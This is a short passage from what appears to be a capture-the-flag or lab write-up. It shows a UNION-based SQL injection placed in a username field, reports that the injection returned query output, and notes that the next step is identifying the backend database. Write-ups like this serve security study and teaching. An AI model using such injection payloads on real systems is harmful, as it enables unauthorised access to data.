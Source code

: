 ```sql
SELECT $COLUMNS FROM $NOTES_TABLE WHERE username = 'tgihf' UNION SELECT 'a','b'--'
```

It worked!

![Pasted image 20210806091328](Pasted%20image%2020210806091328.png)

This confirms that we can inject into the username and retrieve query output. Determine the backend database type.

